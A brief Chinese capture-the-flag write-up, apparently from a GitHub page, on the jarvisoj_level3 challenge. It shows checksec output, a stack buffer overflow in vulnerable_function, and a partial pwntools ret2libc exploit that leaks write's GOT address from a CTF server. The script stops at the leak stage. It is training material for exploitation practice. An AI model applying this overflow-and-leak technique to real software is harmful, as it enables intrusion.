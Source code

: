 







## jarvisoj_level3（libc版本）打不通



```
helloctfos@Hello-CTF:~/pwnenv$ checksec level3 && file level3
[*] '/home/helloctfos/pwnenv/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
level3: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=44a438e03b4d2c1abead90f748a4b5500b7a04c7, not stripped
```





经典的ret2libc



```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 256u);
}
```



直接写exp就可以了

先write got地址

```python
from pwn import *

from LibcSearcher import *

context(arch="i386",os='linux',log_level='debug')

io = remote('node5.buuoj.cn',25059)

# io = process("./level3")

elf = ELF("./level3")

write_plt=elf.plt['write']

write_got=elf.got['write']

main_addr=elf.symbols['main']

payload= b'a'*140+p32(write_plt)+p32(main_addr)+p32(0x1)+p32(write_got)+p32(0x4)

#  write(1,address,len)

io.sendafter(b"Input:\n",payload)

```